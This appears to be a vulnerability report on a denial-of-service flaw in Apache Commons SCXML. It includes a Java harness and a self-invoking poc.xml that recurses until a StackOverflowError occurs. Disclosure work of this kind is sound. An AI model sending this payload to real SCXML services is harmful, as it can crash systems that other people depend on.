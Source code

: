 # Apache Commons-scxml Denial of Service Vulnerability

## 1. Project address
https://github.com/apache/commons-scxml
https://commons.apache.org/proper/commons-scxml

## 2. Project Introduction
ScXML is a working draft specification published by the World Wide Web Consortium (W3C). SCXML provides a common state machine-based execution environment based on the Harel state table. SCXML is a multi-markup language from W3C (see the latest working draft for details). Commons SCXML is a Java SCXML engine designed to create and maintain state machines that can execute defined state machines using SCXML documents while abstracting the environment interface.

## 3. Project Version
 master

## 4. Vulnerability details
For the specific payload, please refer to the following exploit, only analysis is done here
The function call analysis is as follows:
There is a go method in SCXMLExecutor, which calls another overloaded method go in the same category and passes in an empty Map. Use emptyMap() to create an unmodifiable empty Map
public void go() throws ModelException {
  this.go(Collections.emptyMap());
}

From the above analysis, we can see that the code completes a loop. However, this loop will not jump out, but will loop infinitely until the space is full and a StackOverflowError error is thrown. 
The call chain is as follows
![image](https://github.com/user-attachments/assets/abd10d70-4e04-4496-801a-d2520503f036)

## 5. Exploitation

There are two ways to use it. You can compile the source code and then import the jar package to build the project, or you can directly use the code editor to execute the main function;
The test source code is as follows:

```
import java.io.IOException;
import javax.xml.stream.XMLStreamException;
import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.io.SCXMLReader;
import org.apache.commons.scxml2.model.ModelException;
import org.apache.commons.scxml2.model.SCXML;

public class testDos {
  public static void main(String[] args) throws ModelException, XMLStreamException, IOException {
    SCXMLExecutor executor = new SCXMLExecutor();
    SCXML scxml = SCXMLReader.read("http://127.0.0.1:8888/poc.xml");
    executor.setStateMachine(scxml);
    executor.go();
  }
}
```

Poc.xml is as follows
```
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0">
    <parallel>
        <invoke src="poc.xml" content="poc" id="flag">
            <param name="flag" expr=" 100-7 "></param>
        </invoke>
    </parallel>
</scxml>
```

When executing the code, you can see a StackOverflowError error.

![image](https://github.com/user-attachments/assets/e6833060-fb1a-482a-86a5-ce19666aa11f)

Through performance analysis, it can be seen that the occupancy

![image](https://github.com/user-attachments/assets/6cf77c17-c386-46c1-84e5-0300a518266c)

![image](https://github.com/user-attachments/assets/89b16ca9-c750-49b0-a2e0-f833cee48fdd)

The memory usage is as follows

![image](https://github.com/user-attachments/assets/0261fc09-75d8-4b77-9b4d-3c92aa34f475)



